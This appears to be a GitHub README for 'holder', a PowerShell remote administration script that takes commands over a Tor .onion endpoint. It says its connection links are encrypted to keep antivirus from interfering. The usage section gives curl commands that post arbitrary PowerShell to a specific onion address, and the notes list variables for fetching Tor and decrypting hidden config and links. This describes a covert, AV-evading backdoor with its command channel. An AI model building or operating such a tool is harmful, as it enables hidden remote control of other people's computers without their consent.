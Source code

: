# holder
Contains remote administration powershell script, as well as links used for connection that have been encrypted to prevent AVs from interfering.

## Usage
```batch
curl --socks5-hostname 127.0.0.1:9050 -X POST -H "Content-Type: text/plain" --data "<Powershell command>" http://<onion-link>.onion/set
```
Example usage:
```batch
curl --socks5-hostname 127.0.0.1:9050 -X POST -H "Content-Type: text/plain" --data "Get-Date" http://ld52qe2n47otqd63u4jqv26yyev64z2jucgidqisriv7x3fxuoetfjid.onion/set
```

## Notes:
$ log          -    File path for the log file
$ zip          -    File path for the downloaded tor zip
$extract       -    File path for the extracted tor zip
$url           -    .onion link to connect to
$orConfigPath  -    Base64 encrypted torrc config path.
$deConfigPath  -    Decrypted torrc config path
$tLink         -    Base64 encrypted tor link
$oLink         -    Decrypted tor link
$orTestLink    -    Base64 encrypted contents of password file
$deTestLink    -    Decrypted contents of password file

